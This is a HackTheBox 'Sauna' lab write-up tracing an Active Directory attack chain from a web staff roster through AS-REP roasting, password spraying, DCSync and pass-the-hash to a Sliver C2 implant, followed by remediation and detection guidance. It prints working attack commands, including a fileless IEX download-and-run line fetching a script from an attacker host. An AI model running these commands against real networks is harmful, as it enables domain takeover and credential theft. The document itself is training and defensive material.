


# HackTheBox - Sauna

**OS:** Windows Server 2019 (Active Directory)

Sauna is a Windows Active Directory machine for the fictional `egotistical-bank.local`
domain. Unauthenticated enumeration is locked down, anonymous LDAP and SMB return
nothing useful, but the public web site leaks a roster of employee names. Turning
those names into candidate usernames and AS-REP roasting the domain reveals one
account with Kerberos pre-authentication disabled, yielding a hash that cracks to a
plaintext password. That foothold leads to a reused credential, then to a service
account whose password is stored in clear text in the autologon registry keys. The
service account holds DCSync rights over the domain, allowing a full credential dump
and pass-the-hash to Administrator. Post-exploitation persistence is established with
a Sliver C2 implant.

| Field | Value |
|---|---|
| Platform | HTB |
| Target | `<target-ip>` (SAUNA.egotistical-bank.local) |
| Initial Access | AS-REP roasting -> offline crack -> WinRM |
| Privilege Escalation | Autologon plaintext credential -> DCSync -> pass-the-hash |
| Final Access | `egotisticalbank\administrator` |

---

## Recon

### Port Scan

A full TCP scan (run with the in-house `p0rtix` wrapper around nmap) returned the
classic domain-controller fingerprint: DNS, Kerberos, LDAP/LDAPS, SMB, the global
catalog, WinRM, ADWS, and the high RPC ports. Port 80 (IIS 10.0) was the only
non-infrastructure service.

| Port | Proto | Service | Notes |
|---|---|---|---|
| 53 | TCP/UDP | DNS | `egotistical-bank.local` |
| 80 | TCP | HTTP | IIS 10.0, "Egotistical Bank" site |
| 88 | TCP | Kerberos | AS-REP / Kerberoast surface |
| 135 / 593 | TCP | MSRPC / RPC-over-HTTP | |
| 139 / 445 | TCP | SMB | signing **required** (no relay) |
| 389 / 636 / 3268 / 3269 | TCP | LDAP / LDAPS / GC | |
| 464 | TCP | kpasswd | |
| 5985 | TCP | WinRM | used for the initial shell |
| 9389 | TCP | ADWS | |

The hostname `SAUNA` and domain `EGOTISTICAL-BANK.LOCAL` were confirmed over SMB.

### Unauthenticated AD Enumeration

Anonymous access was deliberately restricted. SMB null and Guest sessions failed to
enumerate users or shares, and LDAP did not return an object list without
credentials:

```
nxc smb <target-ip> -u '' -p ''
SMB   <target-ip>   445   SAUNA   [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB   <target-ip>   445   SAUNA   [+] EGOTISTICAL-BANK.LOCAL\:

nxc smb <target-ip> -u '' -p '' --shares
SMB   <target-ip>   445   SAUNA   [-] Error enumerating shares: STATUS_ACCESS_DENIED

nxc smb <target-ip> -u Guest -p ''
SMB   <target-ip>   445   SAUNA   [-] EGOTISTICAL-BANK.LOCAL\Guest: STATUS_ACCOUNT_DISABLED
```

One detail from the LDAP base query mattered for everything that followed, the
domain password policy has **no account lockout**, which makes password spraying and
roasting safe to run at speed:

```
ldapsearch -x -H ldap://<target-ip>:389 -b DC=EGOTISTICAL-BANK,DC=LOCAL \
  '(objectClass=domain)' minPwdLength lockoutThreshold
- Min password length: 7
- Lockout threshold: 0  -> NO LOCKOUT
```

### Web Roster to Username Wordlist

With anonymous AD enumeration dead, the web site became the user-discovery channel.
Browsing the IIS site to `http://<target-ip>/about.html` exposed a "meet the team"
page listing full employee names:


These names (Fergus Smith, Shaun Coins, Hugo Bear, Sophie Driver, Bowie Taylor,
Steven Kerb, and others) were expanded into a candidate username list covering the
common enterprise naming conventions:

```
fergussmith   fergus.smith   fsmith   f.smith   smithf  ...
stevenkerb    steven.kerb    skerb    s.kerb    ...
```

> **Why this works:** Active Directory `sAMAccountName` values almost always follow a
> predictable pattern derived from the employee's real name. A public staff directory
> hands an attacker the inputs needed to reconstruct valid usernames without ever
> touching the domain controller.

`kerbrute` validated which candidates actually exist as domain accounts by abusing
Kerberos pre-authentication responses (no lockout risk, no logon events):

```
kerbrute userenum --dc <target-ip> -d egotistical-bank.local users.txt
[+] administrator@egotistical-bank.local
[+] fsmith@egotistical-bank.local
```

---

## Initial Access

### AS-REP Roasting `fsmith`

Accounts with the `DONT_REQUIRE_PREAUTH` UAC flag set can be attacked without
knowing their password: the KDC will return an AS-REP encrypted with the account's
password-derived key, which can be cracked offline. Running `GetNPUsers` against the
candidate list found exactly one such account, `fsmith`:

```
impacket-GetNPUsers egotistical-bank.local/ -no-pass -dc-ip <target-ip> \
  -request -format hashcat -usersfile users.txt

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:<redacted-32-hex>$<redacted-asrep-blob>
```

Hashcat mode 18200 recovered the password against `rockyou.txt`:

```
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
- CRACKED (AS-REP): fsmith:Th**********
```

### Shell via WinRM

`fsmith` is a member of **Remote Management Users**, so the cracked credential gave
an interactive WinRM shell directly. The credential was confirmed valid for both SMB
and WinRM during the credential-reuse sweep first (`Pwn3d!`), then used with
evil-winrm:

```
evil-winrm -i egotistical-bank.local -u fsmith -p '<redacted>'

Evil-WinRM shell v3.9

*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami; hostname; type C:\Users\FSmith\Desktop\user.txt
egotisticalbank\fsmith
SAUNA
<user-flag-redacted>
```

`whoami /all` confirmed `fsmith` is a low-privilege user (Remote Management Users +
Domain Users) with no notable privileges.

---

## Post-Exploitation Enumeration

### Credentialed AD Enumeration

With valid credentials, a full pass of authenticated enumeration was run.
`ldapdomaindump` recovered the complete account list, including users that anonymous
enumeration had hidden, notably `HSmith` (Hugo Smith) and the service account
`svc_loanmgr`.

```
ldapdomaindump -u 'egotistical-bank.local\fsmith' -p '<redacted>' \
  -o loot/ldapdomaindump ldap://<target-ip>
- 6 domain users extracted
```

### Credential Reuse via `HSmith`

`HSmith` carried a Service Principal Name and was therefore Kerberoastable:

```
impacket-GetUserSPNs egotistical-bank.local/fsmith:<redacted> -dc-ip <target-ip> -request
- 1 Kerberoastable hash -> account: HSmith
```

That hash was crackable, but it never needed cracking, spraying `fsmith`'s password
across the rest of the domain revealed that `HSmith` **reuses the exact same
password**. The reuse was caught during the spray phase before the Kerberoast hash was
ever fed to hashcat:

```
nxc smb <target-ip> -u <spray_list> -p <redacted> --continue-on-success --no-bruteforce
- SPRAY HIT (SMB): HSmith:<redacted>
```

`HSmith` is not in Remote Management Users, so it provided no shell and no new ACL
reach on its own, a dead end that mattered only for confirming the password-reuse
pattern.

### BloodHound: Finding the DCSync Path

BloodHound data was ingested with `bloodhound-python` for both owned accounts, and
`fsmith`/`HSmith` were marked as owned in the UI. Reviewing **Outbound Object
Control** for both accounts showed no useful escalation primitives from the
foothold identities themselves.

The break came from BloodHound's built-in "Find Principals with DCSync Rights"
analytics query, which flagged the service account `SVC_LOANMGR` as holding
**GetChanges** and **GetChangesAll** over the domain object, the two extended rights
required to perform a DCSync (directory replication) attack:



BloodHound's abuse guidance confirms the technique, `secretsdump.py` against the
domain using the principal's credentials to replicate arbitrary account hashes:



The only missing piece was `svc_loanmgr`'s password.

### Recovering the Service Account Password (Autologon)

No credentials for `svc_loanmgr` were available yet, so host-side enumeration was
run from the `fsmith` shell. WinPEAS was executed **fileless, in memory** to avoid
dropping an artifact to disk, pulling the script straight from the attack box and
running it through `IEX`:

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>:8000/winPEAS.ps1')
```

WinPEAS flagged a classic Windows misconfiguration, **autologon credentials stored
in clear text** in the `Winlogon` registry key. The same values are directly
readable with a registry query:

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    DefaultPassword    REG_SZ    Mo**********************
```

> **Gotcha worth recording:** the autologon `DefaultUserName` is
> `svc_loanmanager`, but that string is **not** a valid logon name. The real
> `sAMAccountName` from the LDAP dump is `svc_loanmgr`. Authentication only
> succeeded once the recovered password was paired with the actual account name;
> the display/autologon name and the logon name differed.

---

## Privilege Escalation

### DCSync as `svc_loanmgr`

With `svc_loanmgr`'s plaintext password and its GetChanges/GetChangesAll rights,
`secretsdump` replicated the domain's credential material directly from the DC over
DRSUAPI, no code execution on the DC required:

```
impacket-secretsdump 'svc_loanmgr:<redacted>@egotistical-bank.local'

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:<lm-hash>:<redacted-nt-hash>:::
Guest:501:<lm-hash>:<redacted-nt-hash>:::
krbtgt:502:<lm-hash>:<redacted-nt-hash>:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:<lm-hash>:<redacted-nt-hash>:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:<lm-hash>:<redacted-nt-hash>:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:<lm-hash>:<redacted-nt-hash>:::
SAUNA$:1000:<lm-hash>:<redacted-nt-hash>:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:<redacted-aes-key>
krbtgt:aes256-cts-hmac-sha1-96:<redacted-aes-key>
[*] Cleaning up...
```

> Note the leading `rpc_s_access_denied` from `RemoteOperations` is expected: the
> account lacks remote-registry/service rights, but it still holds the directory
> replication rights, so the DRSUAPI DCSync path succeeds regardless.

### Pass-the-Hash to Administrator

The recovered Administrator NT hash was replayed over WinRM, no password cracking
needed:

```
evil-winrm -i egotistical-bank.local -u Administrator -H <redacted-nt-hash>

Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami; hostname; type C:\Users\Administrator\Desktop\root.txt
egotisticalbank\administrator
SAUNA
<root-flag-redacted>
```

Full domain compromise achieved.

---

## Post-Exploitation: Sliver C2

To model realistic operator tradecraft beyond the one-shot shell, a Sliver implant
was generated and deployed for resilient command-and-control as Administrator. The
implant was built for `windows/amd64`, pointed at the operator's HTTPS listener,
and executed on the target, where it called back and registered a live session:

```
$ sliver

          ██████  ██▓     ██▓ ██▒   █▓▓█████  ██▀███
        ▒██    ▒ ▓██▒    ▓██▒▓██░   █▒▓█   ▀ ▓██ ▒ ██▒
        ░ ▓██▄   ▒██░    ▒██▒ ▓██  █▒░▒███   ▓██ ░▄█ ▒
          ▒   ██▒▒██░    ░██░  ▒██ █░░▒▓█  ▄ ▒██▀▀█▄
        ▒██████▒▒░██████▒░██░   ▒▀█░  ░▒████▒░██▓ ▒██▒

[*] Server v1.7.3
[*] Welcome to the sliver shell, please type 'help' for options

[127.0.0.1] sliver > implants

 Name    Implant Type   OS/Arch         Format       Command & Control         ID
======= ============== =============== ============ ========================= =======
 sauna   session        windows/amd64   EXECUTABLE   [1] https://<attacker-ip>   32969

[127.0.0.1] sliver > use

[*] Active session sauna (a51667f3-e8a7-4b30-8e4c-2c74943e6950)

[127.0.0.1] sliver (sauna) > whoami

Logon ID: EGOTISTICALBANK\Administrator
[*] Current Token ID: EGOTISTICALBANK\Administrator
```

The Sliver session confirms a stable, encrypted C2 channel running in the
Administrator context, the position from which an adversary would establish
persistence, harvest additional secrets (e.g. the `krbtgt` key for golden tickets,
already captured in the DCSync dump), and pivot to any trusting systems.

---

## Root Cause

Sauna falls not to a single vulnerability but to a chain of identity and credential
hygiene failures, each of which independently violates least privilege:

1. **Public information disclosure**, a staff roster on the web site supplied the
   raw material for username generation.
2. **Kerberos pre-authentication disabled** on `fsmith`, enabling AS-REP roasting.
3. **A weak, dictionary-crackable password** on that account.
4. **Password reuse** across `fsmith` and `HSmith`.
5. **Plaintext autologon credentials** for a service account stored in the registry.
6. **Excessive directory-replication rights** (DCSync) delegated to a non-tier-0
   service account.

Remove any one of links 2-6 and the full path to Domain Admin breaks.

## Impact

Complete compromise of the `egotistical-bank.local` domain. The DCSync dump exposed
every account hash including `Administrator` and `krbtgt`. Possession of the `krbtgt`
key allows forging golden tickets for arbitrary identities, meaning the domain cannot
be considered trustworthy again until `krbtgt` is rotated twice and all credentials
are reset. In a production bank environment this is a worst-case outcome: total loss
of confidentiality and integrity over all domain-joined systems and data.

## Remediation

Recommendations are ordered by priority. The first three break the demonstrated
attack path outright; the remainder are hardening that reduces blast radius.

**1. Remove DCSync rights from the service account (highest priority).**
`svc_loanmgr` should never hold `DS-Replication-Get-Changes` /
`DS-Replication-Get-Changes-All` on the domain object. Audit the domain DACL and
strip replication ACEs from every principal that is not a domain controller or a
sanctioned, monitored backup identity. Adopt a tiered administration model so that
service accounts can never be delegated tier-0 rights.

**2. Eliminate plaintext autologon credentials.**
Delete `DefaultPassword` (and disable `AutoAdminLogon`) under
`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`. If autologon is a
genuine operational requirement, use the LSA-secret-backed mechanism via
`Sysinternals Autologon` rather than a clear-text registry value, and prefer
removing the need entirely. Rotate the `svc_loanmgr` password immediately, since it
is now exposed.

**3. Require Kerberos pre-authentication on all accounts.**
Clear the `DONT_REQUIRE_PREAUTH` flag on `fsmith` and audit the domain for any other
account with it set (`Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}`). This
attribute is almost never legitimately needed and single-handedly enables AS-REP
roasting.

**4. Strengthen the password policy and ban weak passwords.**
The current policy allows 7-character passwords and has **no lockout threshold**.
Set a minimum length of 14+, enable account lockout (e.g. 5-10 attempts with a
reset window) or smart lockout, and deploy a banned-password list / Azure AD Password
Protection so that dictionary words like the cracked credential are rejected at set
time. The fact that the password was in `rockyou.txt` is the reason both the AS-REP
and Kerberoast hashes fell instantly.

**5. Enforce unique credentials and protect service accounts.**
`fsmith` and `HSmith` shared a password, enforce uniqueness and consider phishing-
resistant MFA for interactive logons. For service accounts, migrate to **Group
Managed Service Accounts (gMSA)** with 120-character machine-managed passwords, which
removes both Kerberoasting and credential-reuse exposure. Where SPNs must exist on
standard accounts, give them 25+ character random passwords and enforce AES-only
Kerberos encryption.

**6. Reduce information disclosure.**
Avoid publishing a full-name staff directory on an unauthenticated public site, or
ensure that internal usernames cannot be trivially derived from published names.

**7. Restrict administrative protocols.**
Limit WinRM (5985) and remote-management group membership to a controlled jump-host
tier, and require SMB signing (already enforced here) and LDAP channel binding /
signing across the board.

### Validation

- Re-run `GetNPUsers` and confirm no AS-REP-roastable accounts are returned.
- Confirm the BloodHound "DCSync rights" query returns only domain controllers.
- Attempt `secretsdump` with the (rotated) `svc_loanmgr` credential and confirm
  `rpc_s_access_denied` on the replication call.
- Query the `Winlogon` key and confirm no `DefaultPassword` value exists.
- Replay a password spray with a known weak password and confirm lockout triggers.

## Detection Opportunities

- **AS-REP roasting:** Kerberos event **4768** (TGT request) for accounts with
  pre-auth not required, especially with RC4 (`0x17`) encryption from a workstation.
- **Kerberoasting:** event **4769** (service ticket request) with RC4 encryption and
  a high volume of SPN requests from a single principal.
- **DCSync:** event **4662** referencing the replication GUIDs
  (`1131f6aa-...` / `1131f6ad-...`) where the requesting account is **not** a domain
  controller, one of the highest-fidelity AD attack signals available.
- **Autologon credential access:** monitor reads of the `Winlogon` registry key and
  flag credential-harvesting tools; the fileless `IEX (New-Object Net.WebClient).
  DownloadString(...)` pattern should be caught by Script Block Logging
  (event **4104**) and AMSI.
- **Pass-the-hash / lateral movement:** NTLM logons (event **4624** type 3, NTLM)
  for privileged accounts and WinRM logons from unexpected sources.
- **C2 beaconing:** regular-interval HTTPS callbacks to a non-corporate host; egress
  filtering and TLS inspection on server VLANs would surface the Sliver channel.

## Lessons Learned

- When anonymous AD enumeration is locked down, **pivot to OSINT**, a public staff
  page is often a complete username oracle.
- **Spray before you crack.** Catching the `fsmith`/`HSmith` reuse during the spray
  phase avoided wasting time on a Kerberoast hash that led nowhere new.
- BloodHound's prebuilt analytics ("DCSync rights") surfaced the win condition that
  per-user Outbound Object Control review had missed, run the canned queries, not
  just the owned-principal view.
- Display names and logon names are not interchangeable. The `svc_loanmanager`
  vs `svc_loanmgr` mismatch is exactly the kind of detail that stalls an engagement
  if you trust a single source over the authoritative `sAMAccountName`.

---

## Cleanup

- WinPEAS was run in memory only; no script was written to disk on the target.
- Sliver implant (`sauna`) deployed for the C2 demonstration, remove the binary and
  kill the session after testing.
- No domain objects or ACLs were modified during this engagement (the DCSync path
  used pre-existing delegated rights), so no AD changes need reverting. Rotate all
  credentials exposed in the DCSync dump, including `krbtgt` (twice), as part of
  post-engagement remediation.